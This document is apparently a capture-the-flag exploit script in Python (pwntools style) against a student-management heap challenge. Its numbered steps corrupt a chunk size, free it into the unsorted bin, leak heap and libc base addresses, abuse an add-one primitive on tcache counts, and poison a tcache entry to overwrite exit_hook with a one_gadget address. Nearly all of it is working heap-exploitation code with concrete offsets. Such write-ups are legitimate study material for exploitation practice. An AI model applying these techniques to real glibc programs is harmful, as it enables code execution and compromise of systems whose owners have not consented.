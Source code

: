 ```python
add_student(1)  # stu4 # 0x30+0x20

change_role(1)
change_id(1)  # stu1
pray()  # stu1 pray unset #
set_mode(False, 0, p64(0) + p64(0x4c1))  # modify stu2 chk.size to 0x4c1

# ===Step-4: free stu2 to unsorted bin, stu[2].info (0x20) to tcache(0x20)
change_role(0)
call_parent(2)  # delete stu2(chk.size=0x4c1) to unsorted bin, delete stu2.info(chk0x20) to tcache

# ===Step-5: new stu[4], calloc 0x30 0x20 from unsorted, then &stu1.info.review == &unsoretd bin.chunk
add_student(1)  # new stu2(actul idx:4), overwrite stu4
# calloc(0x30): stu2(0x30) from unsorted bin # now tcache(0x20) 1 chk, unsorted bin 1 chk(0x490). same chk addr
# calloc(0x20): stu2.info(0x20) # call __libc_calloc, int_malloc, get a chk(0x20) from unsorted bin
# now tache(0x20)cnt=1, unsorted bin 0x470 # &tcache.chk(0x20).addr +0x20 =  &unsorted_bin.chk
# then stu2.info+0=1(Ques num) stu2.info+8=0, tcache(0x20) chk corrupted, next and key fields changed
# stu1.info.review now is the addr of the only chunk in unsorted bin # stu1.info.review (0x470) in unsorted bin
# NOTE: why 0x470, why not 0x4c0-0x30. calloc NOT get chunk in tcache first

# ===Step-6: stu1 check review, tcache(0x310).cnt+=1, leak &stu1, got heap base, output stu1.info.review, got libc base
change_role(1)
change_id(1)  # stu1
choice(2)  # stu1 check review # if score>89( (*stu[idx])+4>89 ) : leak addr of stu[id]
ru("Good Job! Here is your reward! ")  # get &stu1(addr of stu1) # a addr in heap
heapbase = int(p.recv(14), 16) - 0x2f0  # &stu1 - (&stu1 - heap_base)
lg("heapbase")
add1_addr = str(heapbase + 0x6e) + '0'  # '0' will be overwrite to \0, it's a small bug in input addr str
print("add1_addr", hex(int(add1_addr)))
# tcache 0x310 counts += 1 # counts array element: 2B
sla("add 1 to wherever you want! addr: ", str(heapbase + 0x6e) + '0')  # tcahce_cnt(0x310)
ru("here is the review:\n")  # stu1.info.review not is a addr in unsorted bin(libc)
libcbase = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00')) - (0x7f2cd0e93be0 - 0x7f2cd0ca7000)
lg("libcbase")

exit_hook = libcbase + 0x222f70
one_gadget_all = [0xe3b2e, 0xe3b31, 0xe3b34]
onegadget = libcbase + one_gadget_all[0]
# onegadget = libcbase + libc.symbols["puts"]
lg("onegadget")

# ===Step-7: add stu[5], overwrite stu[5].info.review to tcache(0x310).entry, cover tcache(0x310).e to exit_hook
change_role(0)
# unsorted bin 0x470
add_student(1)  # stu[5] # get stu 0x30(heapbase+0x3c0) stuinfo 0x20(heapbase+0x3f0) from unsorted bin
# unsorted bin 0x420

# heapbase + 0x3f0: &stu[5].info
# heapbase + 0x208: tcache(0x310).entry # the addr overwrited is stu[5].info.review
dd()  # DEBUG: DEBUG
write_review(1, 0, p64(heapbase + 0x3f0) + p64(0) * 4 + p64(0x21) + p64(0) + p64(heapbase + 0x208) + p64(0x10))

write_review(5, 0, p64(exit_hook))  # overwrite tcache(0x310).entry to exit_hook

```
